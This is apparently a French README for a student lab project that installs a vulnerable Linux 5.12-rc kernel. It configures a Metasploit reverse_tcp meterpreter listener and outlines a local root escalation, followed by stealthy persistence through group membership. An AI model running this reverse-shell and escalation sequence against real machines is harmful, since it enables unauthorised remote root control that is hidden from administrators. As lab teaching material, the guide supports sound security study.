 * Créer une session meterpreter et configurer le Listener avec Metasploit
``` 
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST IP_machine_attaque sur eth1
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
```

## 2.2 Sur la machine cible
Le fichier vagrantFile de la VM se trouve dans le repertoire `Target_host`.

### 2.2.1 Mettre en oeuvre l'infrastructure vulnérable : on a choisit la version de noyau v5.12-rc

* Si on utilise la VM téléchagée, il faudra une fois dans la VM :
Depuis la VM téléchager les scripts du dossier Target_host dans le [repository](https://gitlab.ensimag.fr/kamdoumc/projet-secu-3a/-/tree/main) et se placer dans /sharedFolder 
``` 
* sudo mkdir -p /sharedFolder
* sudo cp /home/$(whoami)/Downloads/*.sh /sharedFolder
* chmod +x /sharedFolder/set_vulnKernel.sh 
* sudo ./sharedFolder/set_vulnKernel.sh
```
L'execution du script `set_vulnKernel.sh` permet de télécharger et installer les headers, modules et image du kernel et les dependences nécessaires puis mettre à jour le GRUB.

* Si on utilise la VM construites par vagrant, tout est déja mis en place dans le vagrantfile

### 2.2.2 Création de deux comptes utilisateur non privilégié par l'administrateur pour tester la faille

Un compte servira à exploiter la faille et l'autre servira à tester le comportement une fois les correctifs appliqués par l'administrateur.

Cela est déja mis en place dans les script, il y'a pas de commande à faire.

**Attention**, au redemarrage il faut choisir la version du kernel (5.12) manuellent depuis le GRUB. 

### 2.2.3 Scénario de l'attaque

L'objectif, en plus de l'escalade de privilèges en local pour passer en root, est de coupler cela à une session meterpreter sur la machine de l'attaquant grâce à un payload reverse_tcp, permettant d'avoir une plus grande surface d'attaque en accédant à la machine cible à distance avec des privilèges root.

Pour ce faire, l'attaquant cherche à connaître l'IP de la machine cible à attaquer et vérifie que la cible présente bien la vulnérabilité exploitable en fonction de la version du kernel et/ou avec Metasploit. Depuis sa propre machine (la machine d'attaque), on peut :

* utiliser Metasploit pour obtenir des informations sur l'exploit et vérifier la vulnérabilité de la cible à partir de son @IP ;
* construire un payload reverse_tcp avec son adresse IP et un port ;
* préparer l'exécutable de l'exploit en compilant son code source C ;
* lancer un exploit de type Listener avec Metasploit sur sa machine pour écouter les connexions sur un port précis ;
* chercher un moyen d'avoir un accès physique/SSH sur la machine cible avec un compte sans privilèges root ;
* lancer l'exploit sur la cible pour obtenir les privilèges root.
Après avoir obtenu un shell root sur la cible, on peut, à ce moment-là, s'ajouter soit dans le groupe sudo de manière permanente, soit dans un autre groupe (pour tenter de passer inaperçu) avec les privilèges les plus élevés possibles, soit faire les deux.
